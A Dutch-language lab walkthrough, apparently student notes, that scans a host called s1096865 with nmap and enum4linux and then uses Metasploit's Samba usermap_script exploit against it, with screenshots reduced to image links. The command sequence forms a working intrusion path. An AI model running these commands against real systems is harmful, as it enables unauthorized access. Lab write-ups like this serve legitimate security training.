`nmap s1096865` om de poorten te vinden.



---
`nmap -sV -O s1096865` de flags -sV helpt om de versie van de services te vinden en -O helpt om het besturingssysteem te vinden.



---
http scan

`nmap --script http-enum,http-headers,http-methods -p 80 s1096865` de script http-enum helpt om de directories te vinden, http-headers helpt om de headers te vinden en http-methods helpt om de methodes te vinden.


---
`nmap -sT -sV s1096865` de flag -sT helpt om de TCP connectie te vinden.



---

`enum4linux -a s1096865` 











---

`use auxiliary/scanner/smb/smb_version` om de module te gebruiken.

`show options` om de opties te zien.



`set RHOSTS s1096865` om de host te zetten.



`search samba` om de samba exploits te vinden.



`use exploit/multi/samba/usermap_script` om de exploit te gebruiken.



`set RHOSTS s1096865` om de host te zetten.

`expoit` om de exploit te starten.


---
